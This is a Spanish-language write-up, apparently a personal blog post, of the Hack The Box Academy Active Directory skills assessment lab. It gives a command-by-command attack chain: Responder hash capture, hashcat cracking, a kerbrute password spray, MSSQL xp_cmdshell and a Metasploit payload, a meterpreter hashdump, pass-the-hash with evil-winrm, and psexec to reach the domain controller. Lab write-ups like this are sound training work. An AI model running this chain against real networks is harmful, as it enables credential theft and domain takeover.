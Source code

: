 ```yaml
---
layout: single
title: HTB Academy Active Directory Skills ASsessment Part II
date: 2024-12-03
classes: wide
categories:
  - writeups
tags:
  - HTB
  - writeup
  - pentesting
---
```


Este write-up trata del último ejercicio para el módulo de Active Directory de Hack The Box Academy. Nos dan acceso a una máquina Parrot que comparte enrutador con el entorno a vulnerar.

Vamos a analizar el entorno:

```
nmap -T4 -A 172.16.6.0/23 -oN nmap_scan.txt &
responder -I ens24&
```

Encontramos:

- Domain Controller (DC) with IP address: 172.16.7.3
    
- MS01 host with IP address: 172.16.7.50
    
- SQL01 server with IP address: 172.16.7.60

También, gracias al Responder, obtenemos un hash NTLMv2 de un usuario para MS01. 

```
hashcat -m 5600 hash_ntlmv2 /usr/share/wordlists/rockyou.txt 
```

Con estas credenciales, vamos a rastrear usuarios válidos con el servicio smb levantado en MS01.

```shell
crackmapexec smb 172.16.7.50 -u '' -p '' --users
```

Encontramos varios usuarios válidos, los introducimos en un .txt y con un diccionario de las 1000 contraseñas más comunes, hacemos un password spray attack: 

```shell
kerbrute passwordspray -d inlanefreight.local --dc 172.16.7.3 users_valid.txt password.txt
```

Con las credenciales obtenidas ahora, tenemos acceso de lectura a los directorios compartidos. Hay más credenciales en: 

```shell
smbmap -u '' -p '' -R Department Shares -H 172.16.7.3 -A web.config -q
```

Esta nueva cuenta tiene activado el privilegio 'SeImpersonatePrivilege'.

```shell
mssqlclient.py INLANEFREIGHT/user@172.16.7.60
xp_cmdshell "whoami /priv"
```

La forma más rápida de explotar esta vulnerabilidad y acceder a SQL01 es con metasploit.

```shell
msfconsole -q
search mssql_payload
use 0
(...)
exploit
```

Si a este exploit le añadimos el meterpreter como payload, podremos realizar un hashdump que nos dará acceso a credenciales para MS01.

```shell
evil-winrm -i 172.16.7.50 -u Administrator -H bdaffbf (...)
```

Una vez en MS01, podemos utilizar Inveigh.exe, que tiene la misma función que Responder pero para Windows. 

```Powershell
Evil-WinRM* PS C:\Users\Administrator\Desktop> upload Inveigh.exe
Info: Uploading Inveigh.exe to C:\Users\Administrator\Desktop\Inveigh.exe
```

Esto nos devolverá otro hash NTLMv2. Una vez pasado por hashcat, sólo será necesario utilizar `psexec.py` para acceder a DC01. 



